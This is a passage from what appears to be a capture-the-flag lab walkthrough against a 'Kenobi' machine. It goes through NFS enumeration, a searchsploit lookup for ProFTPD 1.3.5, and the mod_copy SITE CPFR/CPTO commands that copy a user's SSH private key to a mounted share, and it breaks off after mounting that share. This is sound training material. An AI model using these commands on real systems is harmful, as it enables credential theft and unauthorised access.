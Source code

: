 ```bash
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwx   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 5.66 seconds
```
8. Question `What mount can we see?` Answer `/var`

## Gain initial access with ProFtpd
1. Question `What is the version?` (FTP) Answer `1.3.5`
```bash
nc 10.10.245.171 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.245.171]
```
2. Question `How many exploits are there for the ProFTPd running?` Answer `4`
```bash
searchsploit proftp 1.3.5
[i] Found (#2): /opt/exploit-database/files_exploits.csv
[i] To remove this message, please edit "/opt/exploit-database/.searchsploit_rc" which has "package_array: exploitdb" to point too: path_array+=("/opt/exploit-database")

[i] Found (#2): /opt/exploit-database/files_shellcodes.csv
[i] To remove this message, please edit "/opt/exploit-database/.searchsploit_rc" which has "package_array: exploitdb" to point too: path_array+=("/opt/exploit-database")

-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                 | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                       | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                   | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                 | linux/remote/36742.txt
-------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
3. Copied `id_rsa` file according to given instruction
```bash
nc 10.10.245.171 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.245.171]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
4. Mount NFS as instructed
```bash
root@system:/tmp# mkdir /mnt/kenobiNFS
root@system:/tmp# mount 10.10.245.171:/var /mnt/kenobiNFS
root@system:/tmp# ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Feb 29 10:11 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
```